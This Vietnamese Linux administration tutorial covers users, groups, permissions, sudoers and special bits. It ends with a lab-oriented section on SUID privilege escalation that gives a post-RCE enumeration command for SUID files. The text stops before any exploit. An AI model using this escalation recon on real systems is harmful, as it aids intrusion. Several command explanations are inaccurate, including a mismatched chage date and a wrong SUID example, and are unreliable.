#  —  Quản lý Người dùng ( User) và Phân quyền 
## 1. Quản trị User và Group 

### 1.1. Quản trị Users
- Trên Linux có 2 loại user :
    - User hệ thống
    - User người dùng

- User hệ thống: dùng để thực thi các module , script cần thiết phục vụ cho hệ điều hành .

- User người dùng : là những tài khoản để login sử dụng hệ điều hành .

- Trong các tài khoản người dùng thì tài khoản `user root` ( super user ) là tài khoản quan trọng nhất :
    - Tài khoản này được tự động tạo ra khi cài đặt Linux .
    - Tài khoản này không thể đổi tên hoặc xóa bỏ .
    - User root còn gọi là `super user` vì nó có full quyền trên hệ thống .
    - Chỉ làm việc với user root khi muốn thực hiện công tác quản trị hệ thống , trong các trường hợp khác , chỉ nên làm việc với user thường .
- Mỗi user thường có đặc điểm như sau :
    - Tên tài khoản user là duy nhất , có thể đặt tên chữ thường , chữ hoa .
    - Mỗi user có 1 mã định danh duy nhất ( uid ) .
    - Mỗi user có thể thuộc về nhiều group .
    - Tài khoản super user có uid=gid=0 .

#### 1.1.1 File `/etc/passwd`
- Là file văn bản chứa thông tin về các tài khoản user trên máy .
- Mọi user đều có thể đọc tập tin này nhưng chỉ có user root mới có quyền thay đổi .

Để xem nội dung file ta dùng lệnh : `# cat /etc/passwd`

- Cấu trúc file gồm nhiều hàng , mỗi hàng là 1 thông tin của user . Dòng đầu tiên của tập tin mô tả thông tin cho user root ( có uid=0 ) , tiếp theo là các tài khoản khác của hệ thống , cuối cùng là tên các tài khoản người dùng bình thường . Mỗi hàng được chia thành 7 cột cách nhau bằng dấu :




- Ý nghĩa các cột trong file :
    - 1 - **Tên user** ( login name )
    - 2 - **Mật khẩu group đã được mã hóa** ( vì có file /etc/shadow ) nên mặc định ở đây là x
    - 3 - **User ID** ( uid )
    - 4 - **Group ID** ( gid )
    - 5 - **Tên mô tả người sử dụng** ( comment )
    - 6 - **Thư mục home của user** ( thường là /home/user_name )
    - 7 - **Loại shell sẽ hoạt động khi user login** , thường là /bin/bash
#### 1.1.2. File `/etc/shadow`
- Là tập tin văn bản chứa thông tin về mật khẩu của các tài khoản user lưu trên máy .

- Chỉ có user root mới có quyền đọc tập tin này .

- User root có quyền reset mật khẩu của bất cứ user nào trên máy .

- Mỗi dòng trong tập tin chứa thông tin về mật khẩu của user , định dạng của dòng gồm nhiều cột , giá trị , dấu : được sử dụng để phân cách các cột .



- Ý nghĩa các cột :
    - 1 - Tên user , giống với trong /etc/passwd ( login name )
    - 2 - Mật khẩu đã được mã hóa
    Để trống ( empty ) - không có mật khẩu
    - tài khoản bị tạm ngưng ( disable )
    - 3 - Số ngày kể từ lần cuối thay đổi mật khẩu ( tính từ 1/1/1970 )
    - 4 - Số ngày trước khi có thể thay đổi mật khẩu . Giá trị 0 có nghĩa có thể thay đổi bất cứ lúc nào .
    - 5 - Số ngày mật khẩu có giá trị . 99999 có nghĩa mật khẩu có giá trị vô thời hạn .
    - 6 - Số ngày cảnh báo user trước khi mật khẩu hết hạn
    - 7 - Số ngày sau khi mật khẩu hết hạn tài khoản sẽ bị khóa . Thường có giá trị là 7 ( 1 tuần )
    - 8 - Số ngày kể từ khi tài khoản bị khóa ( tính từ 1/1/1970 )
#### 1.1.3. Các lệnh quản lý user
##### 1.1.3.1 `useradd`
- Là lệnh tạo tài khoản user . 
```
# useradd [options] [login_name]
```
- **Options :**
    - `c` : comment : tạo bí danh
    - `u` : set user ID : mặc định sẽ lấy số ID tiếp theo để gắn cho user ( bắt đầu từ 1000 )
    - `d` : chỉ định thư mục home cho user
    - `g` : chỉ định group chính
    - `G` : chỉ định group phụ ( group mở rộng )
    - `s` : chỉ định shell cho user sử dụng
    - **VD1 :** Tạo user với tên Will và tên đầy đủ là Will Smiths : 
    ```
    # useradd -c "Will Smiths" will
    ```
    => User được tạo sẽ thuộc về group will và thư mục home của user là `/home/will` được tạo ra tự động .
    - **VD2 :** Tạo user với tên justice và tên đầy đủ là Justice Smiths , user thuộc nhóm users và các nhóm wheel , sales : 
    ```bash
    # useradd -g users -G wheel,sales -c "Justice Smiths" justice
    ```
##### 1.1.3.2. `passwd`
- Là lệnh đặt / đổi password cho user # passwd [login_name]




##### 1.1.3.3. `usermod`
- Là lệnh sửa thông tin tài khoản . # usermod [options] [login_name]

- Options :
    - `c` : comment : tạo bí danh
    - `d` : thay đổi thư mục home cho user
    - `m` : di chuyển nội dung từ thư mục home cũ sang thư mục home mới ( chỉ dùng với d )
    - `g` : chỉ định group chính
    - `G` : chỉ định group phụ ( group mở rộng )
    - `s` : chỉ định shell cho user sử dụng
    - `l` : đổi tên tài khoản
    - `L` : khóa tài khoản
**VD :** Đổi tên tài khoản will thành jaden ( Jaden Smiths ) với thư mục home của user là `/home/jaden` 
```
# usermod -l jaden -c "Jaden Smiths" -m -d /home/jaden will
```

##### 1.1.3.4. `userdel`
- Là lệnh xóa tài khoản user # userdel [options] [login_name]

- **Options :**
    - `r` : xóa cả thư mục home của user
> Khi xóa tài khoản user bằng lệnh `userdel` , dòng mô tả tương ứng của user trong tập tin `/etc/passwd` và `/etc/shadow` cũng bị xóa .

##### 1.1.3.5. `chage`
- Dùng để thiết lập chính sách ( policy ) cho user 
```
# chage [options] [login_name]
```

- **Options :**
    - `l` : xem chính sách của 1 user
    - `E` : thiết lập ngày hết hạn cho account
    - `I` : thiết lập ngày bị khóa sau khi hết hạn mật khẩu ( định dạng ngày tháng là YYYY-MM-DD )
    - `m` : thiết lập số ngày tối thiểu được phép thay đổi password
    - `M` : thiết lập số ngày tối đa được phép thay đổi password
    - `W` : thiết lập số ngày cảnh báo trước khi hết hạn mật khẩu
**VD1 :** Xem policy của user : # chage -l jaden



**VD2 :** Thiết lập policy cơ bản : 
```
# chage -E 2019-08-30 -m 5 -M 90 -I 30 -W 14 jaden
```
=> Lệnh trên sẽ thiết lập mật khẩu hết hạn vào ngày 30/4/2019 . Ngoài ra , số ngày tối thiểu / tối đa giữa các lần thay đổi mật khẩu trong khoảng 5 và 90 . Các tài khoản sẽ bị khóa sau 30 ngày sau khi hết hạn , và 1 tin nhắn cảnh báo sẽ được gửi ra 14 ngày trước khi hết hạn mật khẩu .



**VD3 :**  Thiết lập tắt chính sách hết hạn mật khẩu : 
```
# chage -I -1 -m 0 -M 99999 -E -1 jaden
```
=> Lệnh trên sẽ set “Password inactive” -> never ( không bị hết hạn mật khẩu ) ( thông số 1 ); số ngày tối thiểu / tối đa giữa các lần đổi mật khẩu là vô hạn ( 0 -> 99999 ) ;
Tài khoản không bao giờ bị hết hạn ( “Account expires” -> never ) ( thông số 1 ) => ĐÂY LÀ THIẾT LẬP MẶC ĐỊNH

**VD4 :** Thiết lập bắt buộc user đổi mật khẩu trong lần đầu đăng nhập : 
```
# chage -d 0 jaden
```

=> Lệnh trên sẽ thiết set “Last Password Change” thành “Password must be changed” và user bắt buộc phải đổi mật khẩu ngay lần đầu đăng nhập . 






##### 1.1.3.6 id
- Xem thông tin user hiện hành .




##### 1.1.3.7. `su`
- Chuyển đổi user làm việc từ terminal .
    - User root chuyển qua các user khác thì không cần nhập mật khẩu .
    - User khác chuyển qua user root thì phải nhập password của user root .

```
su -l [login_name]
```
- Chuyển đổi từ user thường sang user root :




### 1.2. Quản trị Group
- Group là tập hợp của nhiều user .
    - Mỗi group có 1 tên duy nhất và 1 mã định danh duy nhất ( gid ) .
    - Khi tạo ra 1 user ( không dùng option g ) thì mặc định 1 group mang tên user được tạo ra .

#### 1.2.1 File `/etc/group`
- Là tập tin văn bản chứa thông tin về các group trên máy .

- Mọi user đều có quyền đọc tập tin này nhưng chỉ có `user root` mới có quyền thay đổi .

- Mỗi dòng tập tin chứa thông tin về 1 group trên máy , định dạng của dòng gồm nhiều cột giá trị , dấu : được sử dụng để phân cách giữa các cột .



- **Ý nghĩa các cột :**
    - 1 - **Tên group**
    - 2 - **Mật khẩu group đã được mã hóa** ( vì có file /etc/gshadow ) nên mặc định ở đây là x
    - 3 - **Mã nhóm** ( gid )
    - 4 - **Danh sách các user nằm trong nhóm**

#### 1.2.2. File `/etc/gshadow`
- Chứa thông tin password của group .



- **Ý nghĩa các cột :**
    - 1 - T**ên group**
    - 2 - **Mật khẩu group đã được mã hóa**
        - Để trống ( empty ) - không có mật khẩu
    - 3 - **Danh sách các user có quyền admin trên group này**
    - 4 - D**anh sách các user có trong group**

#### 1.2.3. Các lệnh quản lý group 
##### 1.2.3.1. `groupadd`
- Là lệnh tạo group . # groupadd [options] [group_name]

**Options :**
-  `g [gid]` : định nghĩa nhóm cùng mã nhóm ( gid ) 

##### 1.2.3.2. `gpasswd`
Tạo mật khẩu cho group . 
```
# gpasswd [group_name] 
```

##### 1.2.3.3. groupmod
Là lệnh sửa thông tin group . 
```
# groupmod [options] [group_name]
```

- **Options :**
    - **g [gid] :** sửa lại mã nhóm ( gid )
    - **n [group_name] :** sửa lại tên group 

##### 1.2.3.4. groupdel
- Dùng để xóa 1 group . 
```
# groupdel [group_name] > 
```
- Thay đổi các thông số mặc định
    - Khi sử dụng lệnh useradd hoặc groupadd , nếu chúng ta không liệt kê đầy đủ các thông số cần thiết thì hệ thống sẽ lấy theo giá trị mặc định đã được định nghĩa .

    - Chúng ta có thể thay đổi định nghĩa những giá trị này trong các file sau :

        - `/etc/login.defs` : file chứa thông số mặc định khi tạo user hoặc tạo group .



        - `/etc/skel/ :` tất cả những file và thư mục con trong này sẽ được copy sang thư mục home của user mới tạo .

## 2. File and Directory Permission

- Mỗi file hoặc directory đều có 3 quyền cơ bản là đọc, ghi, thực thi. Có 3 loại quyền được chỉ định cho 3 loại người dùng: chủ sở hữu (owner), nhóm (group), user còn lại (other) . (There are 3 basic types of permissions for each file or directory, read, write, execute. These 3 permission types be assigned to 3 types users: owner, groups, others.).



```
nam@ubuntu:~/Linux-base$ ls -la

total 117060

drwxrwxr-x 2 nam nam

4096 Apr 10 17:00 .

drwxr-x--- 32 nam nam

4096 Apr 7 18:02 ..

-rw-rw-r-- 1 nam nam

191 Apr 7 18:04 Note.txt

-rw-rw-r-- 1 nam nam

1497 Apr 9 15:50 'Partition table.txt'

-rwsr--r-- 1 root root

25 Apr 10 17:00 test.py
```
### 2.1. Các loại filesystem

| Code | Object Type               |
|------|---------------------------|
| `-`  | Regular file              |
| `d`  | Directory                 |
| `l`  | Symbolic link             |
| `c`  | Character special device  |
| `b`  | Block special device      |
| `P`  | FIFO                      |
| `s`  | Socket                    |

### 2.2 `Chmod`, `chown` command
- `chmod`: Thay đổi quyền cho file và folder (change permission for file/ folder)
- `chown`: Thay đổi chủ sở hữu cho file và folder (change file/folder owner and group)

```
# chmod <option> <perm> <file/folder>
# option:
# -R : for folder only, to apply perm for file/folder within folder
#example
sudo chmod u=rwx,g=rw,o=rw test.py
sudo chmod o-w test.py
----------------------------------------------------------------
# chown <option> <user>:<group> <file/folder>
chown user:group test.py
chown user test.py
chown :group test.py
```

### 2.3. `Sudo` command
- `sudo`: cho phép người dùng không phải root hiện tại chạy lệnh với tư cách là người dùng root hoặc quyền của người dùng khác tùy thuộc vào cấu hình trong file sudoer.
```
nam@ubuntu:~$ sudo -l
```

- Sự khác nhau chinh của `sudo` và su: `sudo` có thể sử dụng lệnh thực thi với đặc quyền trong khi đăng nhập tài khoản thông thường, su chuyển đổi tài khoản và mọi lệnh sẽ được thực thi dưới sự cho phép của tài khoản người dùng đó cho đến khi thoát khỏi shell. Lệnh Sudo sẽ ghi nhật ký trong khi su thì không.Config sudo (sudoer file - path: `/etc/sudoers` | `/etc/sudoers.d` )

```
nam@ubuntu:~$ sudo visudo
```

#### 2.3.1 Mô tả quyền hạn người dùng 
```
username ALL=(ALL:ALL) ALL

#username: username which need to config permission.

#ALL= : apply rule to ALL hosts and users.

#(ALL:ALL) : allow user to run command as ALL users : allow user to run command as ALL group.

#ALL : allow user to run all command. - define cmd user may run
```

#### 2.3.2 Mô tả quyền hạn nhóm
```


%groupname ALL=(ALL:ALL) ALL 

# Members of the admin group may gain root privileges

%admin ALL=(ALL) ALL 

# Allow members of group sudo to execute any command %sudo ALL=(ALL:ALL) ALL
```
### 2.4. Quyền truy cập file và leo thang đặc quyền trong Linux 
#### 2.4.1. Quyền truy cập file 


- Quyền truy cập cho file vào folder được đại diện bởi 10 ký tự. Trong đó thì ký tự đầu tiên giúp xác định định dạng của file ví dụ như `-` đại diện cho file và `d` đại diện cho 1 thư mục.
Còn mỗi nhóm 3 ký tự trong 9 ký tự còn lại lần lượt đại diện cho quyền của chủ sở hữu, các nhóm và các người dùng khác .
- Quyền với file/thư mục được xác định bởi 3 loại quyền là 
    - r - read : Quyền đọc với con số biểu đạt là 4 
    - w - write : Quyền chỉnh sửa với con số biểu đạt là 2 
    - x - excute : Quyền thực thi với con số biểu đạt là 1
- Các tổ hợp nhóm quyền thường gặp :

| Ký tự | Tổng số đại diện cho quyền | Quyền hạn |
|----------|-------|----------|
| `rwx`    | 7     | Quyền đọc,ghi và thực thi |
| `rw-`    | 6     | Quyền đọc,ghi |
| `r-x`    | 5     | Quyền đọc và thực thi |
| `r--`    | 4     | Quyền đọc |
| `-wx`    | 3     | Quyền ghi và thực thi |
| `-w-`    | 2     | Quyền ghi  |
| `--x`    | 1     | Quyền thực thi |
| `---`    | 0     | Không có quyền hạn | 

> Để biết được file/folder đang được phân quyền như thế nào thì ta sử dụng lệnh `ls -la`



#### 2.4.2. SUID, SGID và sticky bits
- Ngoài 3 quyền với 3 nhóm người dùng khác nhau như ở trên thì còn có 3 special permisson với file/folder , đó là  SUID, SGID và sticky bits. 
- Special Permission
    - `suid`: cho phép người dùng không phải chủ sở hữu của file thực thi file dưới quyền của chủ sở hữu (allow users who are not the owner of the file to execute it under the permission of the owner (ex: `passwd`, … ))
    ```bash
    # chmod +s <file> 
    sudo chmod o+s test.py 
    ```
    - `sgid`: Nếu quyền `sgid` được đặt trên một file, `SGID` cho phép file đó được thực thi với tư cách là nhóm sở hữu file đó (tương tự SUID). nếu được đặt trên một thư mục, mọi tệp được tạo trong thư mục sẽ được đặt quyền sở hữu nhóm thành quyền sở hữu của chủ sở hữu thư mục. If `sgid` set on a file, the `SGID` allows the file to be executed as the group that owns the file (similar to `SUID`). if set on a folder, any files created in the folder will have their group ownership set to the folder owner's ownership.
    ```bash
    #chmod g+s <file or folder>
    sudo chmod g+s test.py
    ```
    - `sticky bit (t)`: chỉ đặt chủ sở hữu root hoặc tập tin hoặc thư mục có thể thay đổi tên hoặc xóa file set only root or file or folder’s owner can change name or delete the
    ```bash
    #chmod +t <file or folder>

    sudo chmod +t test.py

    # chmod X### file | directory
    # X: special perm
    #SUID = 4.
    #SGID = 2.
    #sticky = 1.

    sudo chmod 7760 test.py
    ```

##### 2.4.2.1. SUID
- **SUID** ( hay **Set user ID** ) , thường được sử dụng trên các file thực thi ( **executable files** ). Quyền này cho phép file được thực thi với các đặc quyền (privileges) của chủ sở hữu file đó.
**Ví dụ:** nếu một file được sở hữu bởi user root và được set SUID bit, thì bất kể ai thực thi file, nó sẽ luôn chạy với các đặc quyền của user **root**. Và khi xem permissions của file, ở phần User, nhãn **x** sẽ được chuyển sang nhãn **s**.



- Để gán SUID cho 1 file, có 2 cách:
    - `chmod u+s [tên file]`
    - `chmod 4555 [ tên file]` ( thêm 4 vào trước permissons )

> Lưu ý: Nếu file chưa có quyền thực thi (executing file as program), SUID sẽ là chữ S. Để nhãn S trở thành s bạn phải cấp quyền thực thi cho file, cũng có 2 cách:

##### 2.4.2.2. SGID
- **SGID** ( hay **Set group ID** ) , cũng tương tự như SUID. Quyền này cho phép file được thực thi với các đặc quyền (privileges) của group sở hữu file đó. Ví dụ: nếu một file thuộc sở hữu của **Staff** group, bất kể ai thực thi file đó, nó sẽ luôn chạy với đặc quyền của **Staff** group.
Và khi xem permissions của file, ở phần **Group**, nhãn **x** sẽ được chuyển sang nhãn **s**.



- Để gán SGID cho 1 file, có 2 cách:
    - `chmod g+s [tên file]`
    - `chmod 2555 [ tên file]` ( thêm 2 vào trước permissons )

- Ngoài ra **SGID** có thể được gán cho thư mục. Với cách gán tương tự như gán cho một file. Khi **SGID** được gán cho 1 thư mục, tất cả các file được tạo ra trong thư mục đó sẽ kế thừa quyền sở hữu của **Group** đối với thư mục đó.

##### 2.4.2.3. Sticky Bit
- Được dùng cho các thư mục chia sẻ , mục đích là ngăn chặn việc người dùng này xóa file của người dùng kia . Chỉ duy nhất owner và root mới có quyền rename hay xóa các file, thư mục khi nó được set **Sticky Bit**. Đó là lý do nó còn được gọi là **restricted deletion bit**.
- Điều này khá hữu ích trên các thư mục được set quyền 777 (mọi người đều được phép đọc và ghi / xóa).



- Khác một chút với 2 permission phía trên, ở Sticky Bit, nhãn x sẽ được chuyển thành nhãn t.
- Để gán Sticky Bit có 3 cách:
    - `chmod +t [tên file, thư mục]`
    - `chmod o+t [tên file, thư mục]`
    - `chmod 1555 [ tên file,thư mục]` ( thêm 1 vào trước permissons )
#### 2.4.3. Tìm Files có SUID
- Command: `find / -perm -u=s -type f 2>/dev/null`
- Trong đó:
    - `/`: Tìm kiếm bắt đầu từ thư mục gốc (root) của hệ thống, việc này giúp quét toàn bộ files trong tất cả thư mục. Điều này giúp tăng phạm vi tìm kiếm.
    - `-perm`: Tìm kiếm theo các quyền được chỉ định sau đây.
    - `-u=s`: Tìm kiếm các file được sở hữu bởi người dùng root. Sử dụng -user [tên user] để tìm kiếm các files của user đó.
    - `-type`: chỉ định loại file tìm kiếm.
    - `f`: Chỉ định loại file cần tìm là các **regular file**, mà không là các thư mục hoặc các file đặc biệt. Hầu hết các file được sử dụng trực tiếp bởi người dùng là các regular file. Ví dụ: file thực thi, file văn bản, file hình ảnh... Điều này giúp tăng hiệu quả tìm kiếm.
    - `2>`: có nghĩa là redirect (kí hiệu là >) **file channel** số 2 tới nơi được chỉ định, **file channel** này ánh xạ tới stderr (**standard error file channel**), là nơi các chương trình thường ghi lỗi vào.
    - `/dev/null`: Đây là nơi được redirect đến, nó là một **pseudo-device** (thiết bị giả) hay một **special character device** mà nó cho phép write (ghi) bất cứ thứ gì lên nó, nhưng khi yêu cầu đọc nó, nó không return bất cứ thứ gì.
=> Vậy câu lệnh trên sẽ tìm toàn bộ files có SUID của user root. Việc thêm 2>/dev/null ý nghĩa rằng toàn bộ errors (**file channel 2**) trong quá trình chạy sẽ được redirect tới **/dev/null** nhằm bỏ qua tất cả errors đó.



#### 2.4.4. Privilege Escalation using SUID
- Thông thường trong các bài lab sử dụng method này, các SUID sẽ được gán cho các file/program/command với Owner có quyền cao hơn quyền của User khi chúng ta thâm nhập thành công vào bên trong. Nếu đó là Root, xin chúc mừng, game có vẻ dễ. Nhưng nếu là User khác, thì cũng xin chúc mừng, vì có vẻ bạn đang chơi game đúng hướng.


- Nếu bài lab có sử dụng method này để leo thang đặc quyền, khả năng cao sẽ là một trong số những trường hợp dưới đây, vì hiện tại đều đang khả dụng !

##### 2.4.4.1. Khi SUID được gán cho Copy command
Sau khi RCE thành công, sử dụng câu lệnh tìm kiếm quen thuộc: find / -perm -u=s -type f 2>/dev/null
Command này dù là user vừa mới được tạo mới tinh cũng có thể thực thi

